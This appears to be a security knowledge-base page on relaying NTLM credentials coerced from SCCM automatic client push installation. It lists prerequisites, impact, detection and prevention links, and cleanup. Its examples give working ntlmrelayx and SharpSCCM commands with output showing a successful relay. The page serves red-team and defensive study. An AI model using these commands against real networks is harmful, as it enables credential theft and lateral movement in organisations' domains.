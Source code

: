 # ELEVATE-2

## Description
NTLM relay via automatic client push installation

## MITRE ATT&CK Tactics
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements

### Coercion
- Valid Active Directory domain credentials
- Connectivity to HTTPS (TCP/443) on a management point
- Connectivity from the primary site server to SMB (TCP/445) on the relay server
- Primary site server settings:
    - Automatic site-wide client push installation is enabled
    - Automatic site assignment is enabled
    - `Allow connection fallback to NTLM` is enabled for client push installation
    - PKI certificates are not required for client authentication
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server
    - Domain computer account is not in `Protected Users`
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target
    - `LmCompatibilityLevel` < `5` or not present, or = `5` and LmCompatibilityLevel >= `3` on the coercion target

### Relay
- Relay target settings:
    - Connectivity from the relay server to SMB (TCP/445) on the relay target
    - `RequireSecuritySignature` = `0` or not present
    - `RestrictReceivingNTLMTraffic` = `0` or not present
    - Coercion target is local admin (to access RPC/admin shares)
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains relay target

## Summary
When SCCM automatic site assignment and automatic client push installation are enabled, and PKI certificates aren’t required for client authentication, it’s possible to coerce NTLM authentication from the site server's installation and machine accounts to an arbitrary NetBIOS name, FQDN, or IP address, allowing the credentials to be relayed or cracked. This can be done using a low-privileged domain account on any Windows system.

## Impact
Client push installation accounts require local admin privileges to install software on systems in an SCCM site, so it is often possible to relay the credentials and execute actions in the context of a local admin on other SCCM clients in the site. Many organizations use a member of highly privileged groups such as "Domain Admins" for client push installation for the sake of convenience.

If all configured accounts fail when the site server tries to authenticate to a system to install the client, or if no specific installation accounts are configured, the server tries to authenticate with its domain computer account. If SMB is used, [TAKEOVER-1](../../TAKEOVER/TAKEOVER-1/takeover-1_description.md) and [TAKEOVER-2](../../TAKEOVER/TAKEOVER-2/takeover-2_description.md) may be possible. If the WebClient (WebDAV) service is enabled on the site server, it is possible to coerce NTLM authentication via HTTP, allowing relay to LDAP or HTTP to conduct attacks such as Shadow Credentials, Resource-based Constrained Delegation, or AD CS ESC8 to take over the server ([TAKEOVER-3](../../TAKEOVER/TAKEOVER-3) or [TAKEOVER-4](../../TAKEOVER/TAKEOVER-8/)).

## Defensive IDs
- [DETECT-1: Monitor site server domain computer accounts authenticating from another source](../../../defense-techniques/DETECT/DETECT-1/detect-1_description.md)
- [DETECT-3: Monitor client push installation accounts authenticating from anywhere other than the primary site server](../../../defense-techniques/DETECT/DETECT-3/detect-3_description.md)
- [PREVENT-1: Patch site server with KB15599094](../../../defense-techniques/PREVENT/PREVENT-1/prevent-1_description.md)
- [PREVENT-2: Disable Fallback to NTLM](../../../defense-techniques/PREVENT/PREVENT-2/prevent-2_description.md)
- [PREVENT-5: Disable automatic side-wide client push installation](../../../defense-techniques/PREVENT/PREVENT-5/prevent-5_description.md)
- [PREVENT-8: Require PKI certificates for client authentation](../../../defense-techniques/PREVENT/PREVENT-8/prevent-8_description.md)
- [PREVENT-11: Disable/uninstall WebClient on site servers](../../../defense-techniques/PREVENT/PREVENT-11/prevent-11_description.md)
- [PREVENT-12: Require SMB signing on site systems](../../../defense-techniques/PREVENT/PREVENT-12/prevent-12_description.md)

## Examples
It is not possible to identify whether automatic site-wide client push installation, automatic site assignment, and `Allow connection fallback to NTLM` are enabled without attempting this attack.

1. On the attacker relay server, start `ntlmrelayx`, targeting the IP address of the relay target and the SMB service:

    ```
    # impacket-ntlmrelayx -smb2support -ts -ip <NTLMRELAYX_LISTENER_IP> -t <RELAY_TARGET_IP>
    Impacket v0.11.0 - Copyright 2023 Fortra

    [2024-02-26 15:49:48] [*] Protocol Client MSSQL loaded..
    [2024-02-26 15:49:48] [*] Protocol Client LDAPS loaded..
    [2024-02-26 15:49:48] [*] Protocol Client LDAP loaded..
    [2024-02-26 15:49:48] [*] Protocol Client RPC loaded..
    [2024-02-26 15:49:48] [*] Protocol Client HTTPS loaded..
    [2024-02-26 15:49:48] [*] Protocol Client HTTP loaded..
    [2024-02-26 15:49:48] [*] Protocol Client IMAPS loaded..
    [2024-02-26 15:49:48] [*] Protocol Client IMAP loaded..
    [2024-02-26 15:49:48] [*] Protocol Client SMTP loaded..
    [2024-02-26 15:49:48] [*] Protocol Client SMB loaded..
    [2024-02-26 15:49:48] [*] Protocol Client DCSYNC loaded..
    [2024-02-26 15:49:50] [*] Running in relay mode to single host
    [2024-02-26 15:49:50] [*] Setting up SMB Server
    [2024-02-26 15:49:50] [*] Setting up HTTP Server on port 80
    [2024-02-26 15:49:50] [*] Setting up WCF Server
    [2024-02-26 15:49:50] [*] Setting up RAW Server on port 6666

    [2024-02-26 15:49:50] [*] Servers started, waiting for connections
    ```

2. Use SharpSCCM's `invoke client-push` function to register a new device with the management point and send a DDR to initiate automatic client push installation to your relay server running ntlmrelayx:

    ```
    SharpSCCM.exe invoke client-push -sms <MANAGEMENT_POINT> -sc <SITECODE> -t <NTLMRELAYX_LISTENER_IP>

    [+] Created "ConfigMgr Client Messaging" certificate in memory for device registration and signing/encrypting subsequent messages
    [+] Reusable Base64-encoded certificate:

        308209D2...020207D0

    [+] Discovering local properties for client registration request
    [+] Modifying client registration request properties:
        FQDN: <NTLMRELAYX_LISTENER_IP>
        NetBIOS name: <NTLMRELAYX_LISTENER_IP>
        Site code: <SITECODE>
    [+] Sending HTTP registration request to <MANAGEMENT_POINT>:80
    [+] Received unique SMS client GUID for new device:

        GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C

    [+] Discovering local properties for DDR inventory report
    [+] Modifying DDR and inventory report properties
    [+] Discovered PlatformID: Microsoft Windows NT Server 10.0
    [+] Modified PlatformID: Microsoft Windows NT Workstation 2010.0
    [+] Sending DDR from GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C to MP_DdrEndpoint endpoint on <MANAGEMENT_POINT>:<SITECODE> and requesting client installation on <NTLMRELAYX_LISTENER_IP>
    [+] Completed execution in 00:00:16.1952455
    ```
    **Note**: Sometimes, this command results in a client device record being created, but SCCM does not kick off automatic client push installation right away. Running the same command again should kick off the process.

3. After a few minutes, ntlmrelayx should receive a connection from the configured client push installation account(s) and the site server’s machine account:
    ```
    [2024-02-26 16:19:47] [*] SMBD-Thread-5 (process_request_thread): Received connection from <SITE_SERVER>, attacking target smb://<RELAY_TARGET>
    [2024-02-26 16:19:48] [*] Authenticating against smb://<RELAY_TARGET> as MAYYHEM/CLIENTPUSH SUCCEED
    ```


### Cleanup
It is not possible to remotely delete device records or remove CCRs in the retry queue that are created by heartbeat DDRs without having `Full Administrator` privileges to SCCM. By default, the site will retry client push installation every 60 minutes for 7 days, and if a newly discovered device sits in the client push installation retry queue for more than 24 hours, an error message may be displayed in the console to administrators.

With `Full Administrator` access to SCCM, artifacts created by SharpSCCM that cause client push installation retries can be removed from the site server and database through the ConfigMgr console or using SharpSCCM.

The following command can be used to identify the device's ResourceId:

```
SharpSCCM.exe get devices -sms <SMS_PROVIDER> -sc <SITECODE> -n <NTLMRELAYX_LISTENER_IP> -p "Name" -p "ResourceId" -p "SMSUniqueIdentifier"

[+] Connecting to \\<SMS_PROVIDER>\root\SMS\site_<SITECODE>
[+] Executing WQL query: SELECT ResourceId,Name,SMSUniqueIdentifier FROM SMS_R_System WHERE Name LIKE '%<NTLMRELAYX_LISTENER_IP>%'
-----------------------------------
SMS_R_System
-----------------------------------
Name: <NTLMRELAYX_LISTENER_IP>
ResourceId: 16777236
SMSUniqueIdentifier: GUID:593FA39D-B6C6-4B8F-A4DE-2454503116FC
-----------------------------------
Name: <NTLMRELAYX_LISTENER_IP>
ResourceId: 16777237
SMSUniqueIdentifier: GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C
-----------------------------------
```

The following command can be used to remove a device with a specified GUID:

```
SharpSCCM.exe remove device GUID:<GUID> -sms <SMS_PROVIDER> -sc <SITECODE>

[+] Connecting to \\<SMS_PROVIDER>\root\SMS\site_<SITECODE>
[+] Deleted device with SMSUniqueIdentifier GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C
[+] Completed execution in 00:00:01.8554465
```

## References
- Chris Thompson, [Coercing NTLM Authentication from SCCM Servers](https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a)
- Chris Thompson, [SharpSCCM](https://github.com/Mayyhem/SharpSCCM)